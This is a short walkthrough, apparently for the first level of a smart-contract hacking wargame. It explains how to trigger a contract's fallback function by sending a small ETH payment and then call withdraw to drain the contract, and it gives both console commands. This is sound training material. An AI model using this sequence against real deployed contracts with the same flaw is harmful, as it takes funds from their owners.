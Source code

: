 #Level 1

We can force the fallback function by sending any non-zero amount of ETH and then 
an additional function parameter.

> await contract.send(5, {value: toWei("0.0001")})

Then we call withdraw to empty the contract. 

> await contract.withdraw()